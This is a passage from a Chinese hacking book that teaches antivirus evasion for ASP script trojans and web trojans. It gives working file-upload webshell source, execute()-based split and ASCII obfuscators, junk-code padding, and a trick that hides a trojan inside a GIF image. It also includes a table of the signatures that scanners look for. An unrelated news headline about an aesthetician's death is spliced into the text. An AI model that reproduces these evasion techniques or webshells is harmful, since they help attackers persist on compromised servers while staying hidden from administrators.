使用这个方法时我们要注意，如果保存后出现了“？”号是不可以的。但倘若出现了以上情况我们该怎么办呢？我针对出现上图提示框的情况给大家讲一下解决办法。

如果出现提示框后我们常规保存出现了问题，那么我们可以再重新保存一次，当提示框出现时先点击“否”，此时又会弹出一个对话框，叫我们选择文件另存为的路径。这时先把下面的编码更换为“UNICODE”型，然后再进行保存，一般情况下就可以解决问题了，如图 5.100。


图 5.100

#### （3）位移、逆位法

关于位移法第一次是出现在黑客 X 档案 2004 年的第 9 期上，当时看了感觉思路很不错，但是由于当时水平有限因此就看得迷迷糊糊的，现在看来无非就是使用 escape 和 unescape 函数实现的，但是考虑到初学者，我还是给大家介绍一下工具的用法吧。

我们先看看这两种方法的加密效果，如图 5.101 所示，通过上图我们可以看出，所谓的逆位法就是将脚本木马的代码都倒了过来，而位移法则是使字母变成另外一个可显示的符号，而汉字并没有变化。所以相对来说还是逆位法的加密效果比较好。

我们在使用工具加密前，需要先懂得怎样筛选代码。其实方法很简单，只要选定一个语句块即可，例如 sub 语句块或 if 语句块。但是怎样区分呢？我教大家一个笨方法，先打开脚本木马，然后单击菜单栏里的“查看”，并选择“状态栏”完成设置，如图 5.102。


假如想加密 sub 语句块，我们打开木马后先按“Ctrl + F”调出查找对话框，搜索方向选择“向下”，如图 5.103，接下来查找 sub。找到后我们注意文本文档下边的状态栏，如图 5.104，显示这个 sub 关键字的位置是从 30 行的第 2 个字符开始的，这里我们只要记住行数即可。下面再使用同样的方法搜索 end sub，找到后注意它的行号，我这里是 53。现在我们就可以断定，在第 30-53 行之间就是一个 sub 语句块了。


我们把这段代码复制到一个新的文本文档里，单击菜单栏上的“文件”，选择“另存为…”，在新弹出的对话框的保存类型选择为所有类型，最后另存为 .asp 的格式即可，如图 5.105。


图 5.105

接下来打开一个提供逆位、位移加密功能的软件“加密最终版”，点击“选择”按钮选择我们的刚才保存的文件，然后选择好加密方式后点击“加密”就可以了，如图 5.106。加密完成后我们需要再对加密好的文件做一下处理，去掉最前面的“<%”与最后面的“%>”，然后将我们开始选择的语句块在原文件中删除掉，将我们加密后的代码复制到这里将其替换掉，最后保存即可，如图 5.107。


图 5.106


图 5.107

现在我们就完成了一个语句块的加密，可能有朋友会有疑问，为什么我们不干脆将整个脚本木马加密呢？这样做当然也是可以的，但是成功率实在是不高，所以我们将含有特征码的语句段使用这种方法加密还是比较明智的。

#### （4）使用一句话木马

为什么说要使用一句话木马？因为一句话木马是不会被传统的杀毒软件查杀的！不信？我们试试……呵呵！

针对传统杀毒软件的免杀就算结束了，相信看完文章的朋友一定会感觉到针对传统杀毒软件进行免杀还是比较容易的一件事，只要大家学会使用上面的方法，那么过传统杀毒软件绝对是易如反掌的！下面我们再来攻破一个难关，针对专杀工具的免杀。

## 二、针对专杀工具的免杀

这里所谓的专杀工具就是指“思易 ASP 木马追捕”、“雷克图”等通过分析脚本文件所调用参数的可疑程度，从而辅助管理员查杀脚本木马的工具，它们大多数自己本身就是一个脚本文件。那么它又是通过什么来查找某个脚本文件所调用的函数呢？

不知道通过上面的学习大家是否还记得脚本文件调用组件的内容，我们的脚本只要想完成一些涉及到其它文件或系统的工作，就一定要调用相应的组件。例如我们上面的例子代码就调用了系统的 FSO 组件，中间括号里的 Scripting.FileSystemObject 便是 FSO 组件的特征，所以专杀工具只要扫描哪些文件里有这些代码就可以判定它调用了什么组件。

不幸的是我们的脚本木马几乎是与系统打交道的，所以如果我们的木马被专杀工具扫到的话，那么后果可想而知，数个脚本木马特征集合到一个文件上，只要那个网管不是超级菜鸟的话就会毫不留情的删除掉我们的木马，那么我们应该怎么办呢？

为了节省篇幅并鉴于免杀的共性，我在这里就不重复上一节里所讲过的内容了，只做一个可行性的分析。

首先是加密免杀，对于使用软件加密的后果其实是非常严重的，专杀程序会提醒“似乎脚本被加密了”，也有提醒“该程序已被加密，但是一般的脚本是不会加密的”，什么意思？就是说我们的木马不是一般程序呗，后果自然是不言而喻……

| 特征/组件 | 示例标识 | 检测说明 |
|---|---|---|
| WScript.Shell 等 | 类名/CLSID 等字符串 | 可疑脚本调用 |
| Shell.Application 等 | 类名/CLSID 等字符串 | 可疑脚本调用 |
| Script/JScript/VBScript.Encode | 编码/加密相关特征 | 可疑脚本调用 |

图 5.108

其次是特征码免杀，如果我们寻找专杀工具的特征码，无疑就是调用一些组件的名称与一些加密特征，假如我们没有加密，而且将组件调用的名称都用空变量替换的话，这样确实会收到很好的效果。但是还有一个致命的缺点，我们不可能替换所有相关的特征码，有的特征码替换后木马就会运行错误，而且对于这种情况，功能越强大的木马就越明显，特别是针对海阳木马，如图 5.109。

最后就剩下“针对传统杀毒软件免杀”里的“其它方法”了，根据我的实验，数据库合并法与 UNICODE 法毫无用处，几乎不会对专杀工具产生任何障碍，而位移、逆位法还有点可取之处，基本上加密后就剩一两个可疑特性了，其实很多普通文件也有所谓的可疑特性，所以说效果还算可以，但是不完美。而最后的一句话木马就更不用我说了，赤裸裸的一句话，更不可能躲过专杀的魔掌了。

那么我们怎样对付专杀呢？目前对付专杀的方法主要有两种，一种是利用 Windows 的……# 第五章 其他综合免杀技术

| 类型 | 标识/对象 | 说明 |
|---|---|---|
| Shell对象 | Shell.ShellExecute / CLSID等 | 已经算作一种SP4专用 |
| 对象 | Shell.Application等 | 在PWS中一般不支持调用 |
| 对象 | Executor | IIS5.0中可以调用的一种Shell |
| 对象 | CreateTextFile / OpenTextFile | 使用了FSO的CreateTextFile/OpenTextFile一类组件 |
| 对象 | SaveToFile | 使用了Stream的SaveToFile函数写文件 |
| 对象 | CreateObject | CreateObject函数调用了相关技术 |

图5.109

一个目录漏洞，另外就是通过调用别的文件来躲过专杀。

关于目录漏洞可能大家都听说过了，我们在命令行下执行一个建立目录的命令，例如：

```
md alpass..\
```

这样就会建立一个名称为“alpass..”的目录，而这个目录对于Windows来说是不存在的，自然基于Windows的杀毒软件以及专杀工具都找不到我们的木马，被杀也就无从谈起了。但是，建立这个目录却是需要有系统管理员权限的。

另外一个方法就是调用图片，当然这是一个特殊的图片，里面包含有我们的木马代码。我们在桌面上按快捷键“Win + R”，在弹出的“运行”栏中输入CMD，打开命令提示符，如图5.110。将一个GIF格式的图片与我们的一句话木马放到C:\下，如图5.111。然后依次执行命令“CD \”与“copy 1.gif /b + 1.asp /a 2.gif”，如图5.112，从而就将 1.gif 与 1.asp 合成为 2.gif。


图5.110 图5.111


图5.112

可能有朋友要问了，必须是GIF格式的图片才可以吗？当然不是了，只要是图片就可以。

这个特殊的图片制作好了，以后我们在别的ASP页面上使用：

```html
<!--include file="xxx/xxx/2.gif"-->
```

这句代码来调用这个特殊的图片就可以了，其中的“xxx/xxx/2.gif”指的是我们这个特殊图片在服务器上的位置，而链接的时候我们直接链接调用图片的ASP文件就可以。以上。但是还有一点需要大家注意，某些专杀程序当扫描到包含有我们调用代码的文件时，就会提示管理员这个脚本调用了我们的那个图片，如果管理员对那个文件比较熟悉的话，就会察觉出存在问题，因此这也是比较危险的。

所以综合来说，针对专杀工具，没有绝对有效的方法，我们所能做的就是将木马的可疑点尽可能的降至最小，以使管理员忽略。

## 三、脚本木马免杀巅峰——编写自己的加密算法

脚本木马免杀的最高境界就是有一套自己能熟练运用的加密算法，这对于我们来说并不复杂，但不可否认的是这确实有一定的难度。

### 1、分隔符加密算法

所谓的分隔符加密算法利用的就是 ASP 脚本中的一个叫做 Split 的函数实现的，这个函数的功能就是将字符串以某个字符为标记分为数组，例如我们常见的防注入程序就应用了 Split 函数：

```asp
SQLij=" select|update| 'and ;|'"
Zhuru=Split(SQLij,"|")
```

这段代码就是一个以“|”为分隔符的例子，它将 SQLij 里的内容以“|”分成了若干个数组。既然它可以将一段字符串分为若干个数组，我们当然也可以将它重组起来。例如原先有一段字符串为“222333555”，我们完全可以将其分为“22|233|35|55”或“2|22333|555”等任何形式。假设将它分为了“22|233|35|55”形式，那么分割完毕后它在内存中就变成了“22”、“233”、“35”、“55”这四组字符串，中间的分隔符“|”此时都已经不见了，于是我们将包含这四组字符串的数组组合在一起时，就又变成了“222333555”这一组字符串。

有的读者可能还不明白这有什么用，就以最简单的 `Server.CreateObject("Scripting.FileSystemObject")` 来说，我们在上面也讲过了，处理的方法就是通过插入空变量来使其免杀，但是前面的“Server.CreateObject”却不能使用这种方法，因此仍然会引起专杀工具的怀疑；但是如果我们使用分隔符加密算法的话，就可以无限制地使用任意不常见字符将其打乱。来看下面这个演示程序：

```asp
<%
dim mm
mm=" resp@onse.writ@e(\"` haha! th@is is a Bac@kdoor.ASP@.Ace.@cm!`\")"
'将被处理过的字符串赋值给变量mm

data=split(mm,"@")   '以字符“@”为分隔标志，将变量mm中的内容分别装入数组data
for i=0 to ubound(data)  '将变量i赋值为0，如果i的值小于数组data里的成员个数，则将i加1后执行下面的语句
    temp=temp+data(i)    '将变量temp的值与数组data中第i个成员的值组合起来赋值给变量temp
next                    '如果for后面条件为假则循环结束
execute(temp)           '执行变量temp
%>
```

首先变量 mm 里包含了一个加密的可执行 ASP 语句 `response.write(" haha! this is a Backdoor.ASP.Ace.cm! ")`，它的作用就是打印“haha! this is a Backdoor.ASP.Ace.cm!”这个句子，但是我们发现源程序中的句子已经将其做了处理，在其中随意插入了许多“@”号，我们就当它是已经加密的木马文件了。我们利用 Split 函数将变量 mm 里加密的 ASP 语句以“@”号为分隔符分别存入数组 data 里，由于已加密的 ASP 语句里有六个“@”号，因此它们被当成七个不同的成员保存在数组 data 里。接下来就是以一个 for 循环语句解密，循环条件里的变量 i 被设为数组的下标，用来代表数组里的不同成员，后面的 `ubound(data)` 则是返回数组 data 的成员个数，并且每执行一次，i 的值就加 1。循环体的内容是将数组 data 里下标为 i 的成员里的数据附加给变量 temp，例如原来 temp 里的内容为“resp”，此时下标为 1 的成员里的内容为“onse.wri”的话，那么执行完毕后 temp 的内容便为“response.writ”了。由此不难看出，这个循环语句的作用就是将数组里的所有成员所保存的内容都一一“吐”给变量 temp。最后就是执行变量 temp 里的语句了。到此，我们已经成功的将脚本中的干扰符号 @ 给去除了，并且完美的执行了脚本，如图 5.113。


图 5.113 图 5.114

如何将其应用到真正的脚本木马中呢？其实我们只要在实际应用过程中稍加注意即可，首先需要注意的是，execute 函数不支持 HTML 语言，也就是说纯粹的 HTML 语言是不可以使用这种方法加密的。其次就是如果需要加密的木马很大的话，里面肯定会包含许多双引号或是单引号，程序有可能对其判断失误，因此在使用此办法加密前先使用其它的办法处理一下也未尝不是明智之举。除此之外，replace 函数也可以实现类似的功能，而且原理更简单，执行效率也更高，这就留给各位读者自己去实现了。

### 2、ASCII码转换加密法

既然是 ASCII 码转换加密法就必然要与 ASCII 码打交道了，在 ASP 脚本中有一个 `asc()` 函数可以将任意字符转换为 ASCII 码，当然也可以将任意 ASCII 码转化为可见字符，我们就利用这个原理来做一个简单的免杀加密器。

首先需要确定的当然是如何将其转换为 ASCII 码，我们只需要下面这段 vbs 脚本代码即可：

```vb
for i = 1 to len(Data)
    Code = Code & asc(mid(Data,i,1)) & "."
Next
```

这段代码的意思就是将变量 Data 里的内容全部转换为 ASCII 码，那么它如何运行呢？我们可以新建一个文本文档，在里面输入相应代码后，再将其“.txt”后缀名更改为“.vbs”即可，如图 5.114。当然了，仅凭以上那一小段代码还是运行不起来的。为此我还编写了一个加密程序，并在关键的地方为大家进行了相应的解释，以方便大家的学习和使用。

```vb
On Error Resume Next    '容错语句，即使错误也继续执行
Dim fso, enter, input_n, Tim, path, out_na, in_na, f1, Data, i, Code, f2
enter = chr(10)          '换行符
Set fso = CreateObject("Scripting.FileSystemObject")
Const ForReading = 1

'调用输入框 inputbox
input_n = inputbox("输入命令:" & enter & "1, 想加密文件，请您直接填写您要加密的文件名。" & enter & enter & _
"2, 想解密文件，请您输入字母‘J’或‘j’进入解密模块。" & enter & enter & _
"3, 想要退出程序，请您输入字母‘Q’或‘q’退出。" & enter & enter & _
"注意: ...", "ASP脚本加密工具 V1.1版 By:A1Pass", "123.txt")

if input_n = "Q" or input_n = "q" then
    Call Quit("成功退出，您的任何文件均未受到影响！")
Else
    if input_n = "j" or input_n = "J" then
        Call ASPInterpretCode("进入解密模块，想退出请输入‘Q’。")
    Else
        '文件名表达部分
        Tim = replace(Date(), "/", "-")
        FullName = WScript.ScriptFullName
        Name = WScript.ScriptName
        path = replace(FullName, Name, "")

        out_na = path & "output " & Tim & ".txt"
        in_na  = path & input_n

        '读取文件
        Set f1 = fso.OpenTextFile(in_na, ForReading)
        Data = f1.ReadAll

        '加密模块
        for i = 1 to len(Data)
            Code = Code & asc(mid(Data, i, 1)) & " "
        next

        ' 创建文件
        Set f2 = fso.CreateTextFile(out_na, True)    ' 在变量out_na里保存的路径里创建文件，并将返回的句柄传递给变量f2。
        f2.Write(Code)                               ' 将变量Code里的数据写入变量f2里保存句柄的文件中。
        f1.Close                                     ' 关闭f1
        f2.Close                                     ' 关闭f2
    End If
End If

' 自定义函数************************************************
' ..............略..............
```

我们只要将以上代码保存为“.vbs”结尾的文件就可以运行了，源代码已收录在光盘中，另外还有一个是经过我加密的，也是使用的这个加密算法，而且还有一些小的限制，希望大家能将其破解，如果能够破解成功的话，就说明大家已经吸收了本小节所讲的内容了。

现在我们已经可以轻松的将任何文本文档加密成 ASCII 码的形式了，那么我们怎么应用呢？同样只需要一段 ASP 代码就可以搞定：

```asp
<%
function InterpretCode(Data)    ' 声明一个名为InterpretCode，参数变量名为Data的过程
    Data1 = split(Data,".")     ' 利用split函数，将变量Data里的内容以“.”为分隔符赋值给数组Data1
    for i = 0 to UBound(Data1)-1 
        Data2 = Data1(i)        ' 将数组Data1下标为i的成员的值赋给变量Data2
        ASPCode = ASPCode + chr(Data2) ' 将变量Data2里的ASCII码还原后附加给变量ASPCode
    Next
    InterpretCode = ASPCode     ' 将变量ASPCode的值传递给InterpretCode
End function 
%>
```

例如我们有以下加密好的数据：“79.110.32.69.114.114.111.114.32.82.101.115.117.109.101.32.78.101.116”，如果要想将其解密执行的话，就要将其插入到如下代码中：

```asp
<% 
asp = "79.110.32.69.114.114.111.114.32.82.101.115.117.109.101.32.78.101.116" 
execute(InterpretCode(asp))

function InterpretCode(Data)
    Data1 = split(Data, ".")
    for i = 0 to UBound(Data1)-1
        Data2 = Data1(i)
        ASPCode = ASPCode + chr(Data2)
    Next
    InterpretCode = ASPCode
End function 
%>
```

并将其保存为“.asp”文件就行了。看到这儿不知各位读者懂了没有，如果是第一次接触 asp 脚本语言的话，不懂也是正常的，只有多看、多写、多实验才能熟悉，毕竟这也是一门计算机语言。

#### 5.10.2 小论网页木马的免杀

对于网页木马我个人是比较排斥的，到目前为止，还没有给哪个网站挂过马！因为我认为挂马实在是有失道德的。网页木马的主体就是 HTML，但是 HTML 只是一种标记语言，所以免杀还是比较好做的，不过网马还要涉及到 JavaScript 与 VBScript，所以做起免杀来还是比较有意思的。网马也是木马，当然也存在特征码，网马找特征码的方法与脚本木马是一样的，所以这里也就不再浪费笔墨了，下面我简单的为大家介绍一下工具免杀的方法。

### 一、HTML混淆器

HTML 混淆器是一款为 HTML 进行加密的工具，当然还可以对 JavaScript 和 VBScript 进行加密，而且它还有一个优点，就是可以多次加密。这有点像我们文件免杀里的 freeRes 的功能，所以免杀效果还是不错的。

我们打开 HTML 混淆器后点击“...”按钮选择要加密的 HTML 文件，如图 5.115，混淆度使用默认的 10 即可，然后点击“生成”按钮就可以完成加密了。如果加密完毕后没有达到免杀的效果，我们还可以进行第二次加密，直到不被查杀为止。


##### 二、蓝星网页加解密专家

这是一款专门为 HTML 文件进行加密的工具，号称是“转换为 HTML 为不可识别字符的最好方法”，我们就来见识一下这款软件。

打开软件后先点击“操作”按钮，如图 5.116，然后点击“添加文件”添加我们要加密的 HTML 文件，如果需要批量转换的话，还可以点击“添加路径”按钮，选择好后我们点击“开始加密”就行了。

##### 三、网页木马压缩器


图 5.116 图 5.117

一款网页木马的压缩工具。

打开“网页木马压缩器”后单击“添加文件”按钮，在弹出的对话框中选择我们要加密压缩的文件，大家要注意“文件类型”选项，因为网页文件是分为 *.html 与 *.htm 两种的，如图 5.117。然后点击“开始压缩”按钮就开始压缩了，压缩完毕后的效果如图 5.118 所示。


图 5.118

除了使用这些工具外就没有别的方法了吗？当然不是，方法还有许多！作为一名合格的黑客，一定要学会自己分析问题，下面我就教大家如何应用已有的知识来解决新的问题，学名就叫“思维发散”吧，呵呵！

首先，我们要分析新面临的网页木马与脚本木马有什么异同，也就是说我们应该怎样将已经掌握的脚本木马的免杀技术转移到网页木马上来。

通过查找资料与分析，我们知道网页木马的 HTML 与 VBScript 也是不分大小写的，但是 JavaScript 对大小写敏感，另外就是发现 VBScript 与 ASP 脚本有非常多的共同点。我们来根据学过的知识构建我们的解决方案。我们知道针对脚本木马的免杀方法分为传统免杀与专杀免杀，由于网页木马还没有专杀工具出现，所以专杀免杀先被排除。那么剩下的传统免杀方法有哪些适合我们呢？加密免杀与特征码免杀几乎可以针对任何木马，所以保留。而那个“其他方法免杀”的针对性太强，几乎只适合脚本木马，所以“其他方法免杀”也被淘汰了。那么就剩下加密免杀与特征码免杀了。

确定了方法，下一步就是“改造”我们的方法了，例如对大小写不敏感的可以利用脚本木马免杀的大小写替换方法，但是需要注意的是碰到 JavaScript 不能替换，而且 VBScript 与 ASP 脚本有非常多的共同点，所以我们完全可以使用脚本木马免杀的替换变量与对象的方法来改造我们的 VBScript。而加密工具当然要找专门为 HTML 或 JavaScript 与 VBScript 加密的软件。

到这里，关于网页木马的免杀技术就介绍完了，其实网页木马的免杀与 PE 文件免杀比起来，我认为环境更宽松一些，也容易产生新的想法。而对于网页木马的免杀来讲，新的方法往往也是最重要的，因为我们免杀容易，那么查杀也容易，所以说“革命尚未成功，同志仍需努力”……

## 著名美学家叶朗逝世 享年81岁

> “美是阐述情感，建立在牢固的理性逻辑之上”
> —— 叶朗

## 第六章 免杀与花指令

花指令属于免杀领域中一种潜力非常巨大的免杀方法，对于花指令来说，它的涉及范围很广，我们在免杀技术中所用到的仅仅是其中的一小部分而已。

随着免杀与杀毒软件厂商之间对抗的升级，杀毒软件厂商推出了越来越多的成熟产品，一些传统的免杀方法正面临着越来越大的挑战，如果我们能够将花指令运用熟练的话，就可以以此衍生出非常多的免杀方法及思路。当然，对于这些比较复杂的内容本章将不会涉及，但是通过本章的学习，相信大家会比较系统的掌握免杀当中花指令的应用方法。

### 6.1 什么是花指令

花指令是什么呢？汇编指令与“花”之间有什么必然的联系吗？我们带着这两个问题来了解下面的内容。

对于“花”与汇编语言之间的联系肯定是有的，要不然怎么能称之为“花指令”呢？其实花指令一开始就是应用到汇编上的，使用汇编语言的程序员为了避免他人学去自己的思想，或是想保护软件当中的一个不为人知的小秘密，就会使用一些干扰指令对他的程序进行类似加密的操作，后来这种应用就逐渐的扩散开来，便有了它的一个专用名词“花指令”，意思就是如同花朵一样的指令，用来吸引别人的注意力，而将真正的“果实”隐藏在后面。

在以后的应用中，我们时常会碰到需要花指令的情况，例如在4.1.2小节中讲到的脚本木马花指令，以及我们将要学习的汇编花指令，再到未来各位读者有可能要接触到的高级语言下的花指令等。但是简而言之，花指令就是一段本可以不存在的指令，它存在的唯一目的就是使程序掩盖一些东西。例如编写木马程序时，间接的调用一些比较敏感的函数；再例如在反汇编的木马中加一个完全不需要的跳转，然后再跳回去；或是在脚本木马中添加一个打印空字符串的句子，嵌套一个空白的IF语句等等……

如果一个程序存在花指令，无非会出现以下两种情况：

- 1. 程序运行时会在中间夹杂着我们的花指令，这也是我们最常见，在免杀技术中应用最广的一种花指令添加方法，如图6.1。
- 2. 程序在运行时会因为我们的花指令而改变原有流程，这种情况并不常见，由于利用起来比较复杂，所以目前不会涉及到。


这些指令在程序运行时是完全可以摒弃的，我们也可以将其称之为垃圾代码。因此，我们可以将花指令定义为“程序正常运行时完全可以不需要的，人们刻意加进去的一段代码或是刻意修改程序流程的一段代码”。读者们只要知道花指令就是人们精心构造的一段垃圾代码，以及它可以起到类似加密的作用就行了，但是切记不要将其与加密混淆。介绍我们就先到这儿，通过下一节的学习之后大家就会对花指令有更进一步的了解了。

### 6.2 脚本木马的花指令应用

在本小节中我们一起来学习应用于脚本木马上的花指令及其应用。以前接触过免杀的读者对于花指令应该有所了解，但不知大家是否听说过应用于脚本木马的花指令。就目前市面上的书籍与杂志来讲，我还没有看到有关于应用于脚本木马的花指令的介绍。

其实根据花指令的定义就可以看出，脚本木马的花指令是很容易想到的，但是不知为何却没有人探讨。鉴于脚本比较容易入门，而且了解脚本的朋友应该比了解汇编的要多一些，因此我们先以脚本木马的花指令为例来让大家对花指令有一个比较透彻的了解，以便于后面的学习。

先以一个最常见的DIY脚本木马为例来讲解一下，如果大家对ASP脚本不熟悉的话也不要灰心，本节的内容主要是使各位能对花指令有一个大体的轮廓印象，知道要从哪里入手，在哪里更有利于我们添加花指令。

为了照顾基础不好的朋友，在下面这个脚本木马的源代码中我简单的做了一下注释。

```asp
<%dim FSOFIL%>                  '定义变量FSOFIL
<%dim FILdata%>                 '定义变量FILdata
<%dim CountFil%>                '定义变量CountFil
<%on error resume next%>        '忽略错误，跳过错误语句；以保证程序整体的正常运行
<%Set FSOFIL = Server.CreateObject("Scripting.FileSystemObject")%>  '将FSOFIL设置为FSO对象
<%if Trim(request("syfdpath"))<>"" then%>  '判断变量syfdpath的值是否不为空，并将此变量两边的空格去掉
<%FILdata = request("cyfddata")%>          '如果上面的条件成立（即syfdpath的值不为空），则将cyfddata的值传递给FILdata
<%Set CountFil=FSOFIL.CreateTextFile(request("syfdpath"),True)%>    '将CountFil设置为syfdpath对象
<%CountFil.Write FILdata%>                 '将CountFil的内容写入FILdata所记录目录下的文件内
<%if err = 0 then%>                        '如果err = 0（即：程序执行过程没有出错）
<%response.Write "<font color=red>save Success!</font>"%>  '打印红色字体的“save Success!”
<%else%>
<%response.Write "<font color=red>Save UnSuccess!</font>"%>  '打印红色字体的“Save UnSuccess!”
<%end if%>                                 '结束IF语句
<%err.clear%>                              '处理完错误后使用Clear显式清除Err对象
<%end if%>
<%CountFil.Close%>                         '关闭CountFil
<%Set CountFil=Nothing%>                   '释放CountFil
<%Set FSOFIL = Nothing%>                   '释放FSOFIL
<%Response.write "<form action='...' method=post>"%>
<%Response.write "保存文件的<font color=red>绝对路径(包括文件名:如D:\\web\\x.asp):</font>"%>
<%Response.Write "<input type=text name=syfdpath width=32 size=50>"%>
<%Response.Write "<br>"%>
<%Response.write "本文件绝对路径"%>
<%=server.mappath(Request.ServerVariables("SCRIPT_NAME"))%>
<%Response.write "<br>"%>
<%Response.write "输入马的内容:"%>
<%Response.write "<textarea name=cyfddata cols=80 rows=10 width=32></textarea>"%>
<%Response.write "<input type=submit value=保存>"%>
<%Response.write "</form>"%>
```

上面的 ASP 脚本对于初学者来讲也许会有一些难度，但是大家不必细抠每一句代码的意思，我们只需要了解一下程序的大体流程及作用即可。简单的概括一下，上面的程序就是为了使我们在页面中输入的内容能够保存在目标服务器的某一个路径下。很显然这是一个具有典型木马性质的脚本，当然也会被杀毒软件查杀，下面我就带领大家分析一下要怎样在这个迷你木马中添加花指令。

首先看前面的三句代码，很显然是分别定义了一个变量，然而 ASP 脚本是允许定义空变量的，所以我们完全可以在前面多定义几个毫无意义的空变量，例如：

```asp
<%dim Alpass%>
<%dim HackerXfiles%>
```

而第五句代码是将一个变量设置为 FSO 对象，我们完全可以使用刚才定义的变量 AlPass：`<%Set Alpass = Server.CreateObject("Scripting.FileSystemObject")%>`。紧跟着的第六句代码就是一个 IF 判断语句，我们自然也可以在其中嵌套一个子 IF 语句，例如：

```asp
<%if 1<2 then%>
<%else%>
<%Response.write "123456789"%>
<%end if%>
```

这个 IF 子语句的意思是如果 1 小于 2 则什么也不做，否则的话就打印字符 “123456789”，其实还可以改变为其它的形式，这就需要大家自己发挥了。我们再看看 `<%Response.write "123456789"%>` 这句代码，如果将其写成 `<%Response.write ""%>` 会发生什么情况呢？结果就是等于没有这句代码，所以 `<%Response.write ""%>` 在 ASP 脚本中几乎就是一个万能花指令，它可以随意插在脚本木马的任意位置。下面就是我们更改之后的脚本木马：

```asp
<%dim FSOFIL%>
<%dim FILdata%>
<%dim CountFil%>
<%dim Alpass%>        '花指令
<%dim HackerXfiles%>  '花指令
<%on error resume next%>

<%Set FSOFIL = Server.CreateObject("Scripting.FileSystemObject")%>
<%Set Alpass = Server.CreateObject("Scripting.FileSystemObject")%>  '花指令
<%if Trim(request("syfdpath"))<>"" then%>
<%if 1<2 then%>      '花指令
<%else%>             '花指令
<%Response.write "123456789"%>  '花指令
<%end if%>           '花指令
<%FILdata = request("cyfddata")%>
<%Set CountFil=FSOFIL.CreateTextFile(request("syfdpath"),True)%>
<%CountFil.Write FILdata%>
<%Response.write ""%>  '花指令
<%if err = 0 then%>
<%response.write "<font color=red>save Success!</font>"%>
<%else%>
<%response.write "<font color=red>Save UnSuccess!</font>"%>
<%end if%>
<%err.clear%>  '处理完错误后使用 Clear 显式清除 Err 对象
<%end if%>
<%Response.write ""%>  '花指令
<%CountFil.Close%>
<%Set CountFil=Nothing%>
<%Set FSOFIL = Nothing%>
<%Response.write "<form action='...' method=post>"%>
<%Response.write "保存文件的<font color=red>绝对路径(包括文件名:如D:\web\x.asp):</font>"%>
<%Response.Write "<input type=text name=syfdpath width=32 size=50>"%>
<%Response.Write "<br>"%>
<%Response.write ""%>  '花指令
<%Response.write "本文件绝对路径"%>
<%=server.mappath(Request.ServerVariables("SCRIPT_NAME"))%>
<%Response.write "<br>"%>
<%Response.write "输入马的内容:"%>
<%Response.write ""%>  '花指令
<%Response.write "<textarea name=cyfddata cols=80 rows=10 width=32></textarea>"%>
<%Response.write "<input type=submit value=保存>"%>
<%Response.write "</form>"%>
<%Response.write ""%>
```

这里只是一个十分简单的例子，但是对于杀毒软件来说确实是有一些效果的，特别是对于卡巴斯基。从上面的例子我们能够学到些什么呢？相信除了学会脚本花指令的使用方法外，大家还明白了基本功是何其的重要。例如这节中所涉及到的例子，对于花指令能否最终被各位读者所熟练的运用，还要看各位读者的编程语言功底怎么样。上面只是一个简单的 ASP 脚本木马，如果是 PHP 脚本木马的话我们又该怎么办呢？我想除了所应用的语言不同外，思路上应该是基本一致的。

因此，我们这节所探讨的知识能被各位读者直接拿来应用的并不是很多，其重点在于教授各位花指令的应用思路，毕竟授人以鱼不如授人以渔。

### 6.3 花指令根基——了解汇编语言

既然花指令始于汇编，所以也就决定了我们还是需要返回到汇编上来，毕竟花指令对于我们来说更多的是应用在应用程序下。那么汇编语言基础究竟对花指令有多大影响，或者说汇编要了解到一个什么程度才能将花指令“玩转”呢？我想这些应该是大多数读者此时心里的疑问，但是很不幸，我无法直接回答这个问题，因为对汇编的了解越多，对于花指令的应用就更加自如。但是我可以根据本节所要介绍的知识为大家整体介绍一下，在这节中我们仅仅是带领大家对汇编语言进行一个了解，这也正是本节标题定为“了解汇编语言”的原因所在。

我们言归正传，下面我就开始介绍初学者们认为很遥远的汇编语言，其实之所以说遥远，只是因为大家对汇编以及自己潜力的不了解所造成的一种假象。单从语言上来说，我认为汇编要比 C++ 简单一些，而且对于我们目前的层次来讲，也只需与汇编“混个脸熟”即可，没有必要深入的理解。

首先，在大家了解汇编语言之前，一定要先明白我们的目标是什么。对于现阶段的大多数初学者来说，如果想学好花指令以及一些外行人看似很牛的免杀技术的话，就要对汇编的基本指令及其作用有一定的了解。当然，在此之前，还要摆脱对汇编的陌生感，不要一看到汇编指令就迷糊，而是要学会在其中发现一些对我们有用甚至是没有用的信息。

#### 6.3.1 认识汇编

汇编语言和其它编程语言一样，也指的是一个大类，例如 VB 相对应的是 VBScript，C 对应的是 VC 或 C++ 等等，这里我们主要学习汇编语言的常见格式，即反汇编出来的格式。我们最常用的计算机都是使用的 Intel 8086 指令系统，而我们要了解的汇编语言，也是基于 Intel 8086 的。Intel 8086 指令系统大致可以分为 6 个功能组，它们是：

- 1. 数据传送类指令
- 2. 算术运算类指令
- 3. 位操作类指令
- 4. 控制转移类指令
- 5. 串操作类指令
- 6. 处理机控制类指令


其中第 1、2、4 类对我们免杀比较有用，当然，这也是相对而言，并不绝对。我们来看汇编语言的通用格式：

```assembly
标号：    指令    目的操作数，源操作数    ;注释
00001A2B : add    esp,1                 ;将指针寄存器加1
```

汇编语言的格式由四部分组成，其中标号表示该指令在主机中的逻辑地址，这个大家不用了解。而指令也称为指令助记符，这就是我们汇编语言中的“代码”了。而目的操作数与源操作数则代表操作的对象。最后的注释是对这一段指令的说明，可有可无，它在程序编译与执行时不产生任何影响。

我们一起来看看程序被反汇编之后是什么样子的，如图 6.2 所示，可见在 OllyDbg 中主要分为“地址”、“HEX数据”、“反汇编”与“注释”这四部分组成，其中的“反汇编”区域便是我们以后的主要“战场”。其中的“地址”代表程序加载到内存之后的相对地址，与我们平时定位特征码时的偏移量并不是一个概念，这点大家要注意。紧随其后的“HEX数据”表明这段指令在使用 16 进制查看后的状态，而后面的“反汇编”就是指这段程序的反汇编代码了，另外这里的“注释”大多都是指程序中的字符或调用的命令。


下面我就简单的为大家介绍一些比较常用的指令，这里所指的“比较常用的指令”是针对我们的免杀而言的。大家也可以将其作为一个参考的形式来对待这一小节的内容，遇到不懂的指令就先到这里来看看它的用法，久而久之也就记熟了。

- 1、传送指令 mov
  传送指令的格式为：`mov ebp,esp` ；将 esp 传送至 ebp
- 2、进栈指令 push
  进栈指令的格式为：`push ebp` ；将基址指针寄存器（ebp）压入堆栈
- 3、出栈指令 pop
  出栈指令的格式为：`pop ebp` ；将基址指针寄存器（ebp）弹出堆栈
- 4、加法指令 add
  加法指令的格式为：`add esp,1` ；将指针寄存器（esp）加 1
- 5. 减法指令 sub
  减法指令的格式为：`sub esp,1` ；将指针寄存器（esp）减 1
- 6. 增量指令 inc
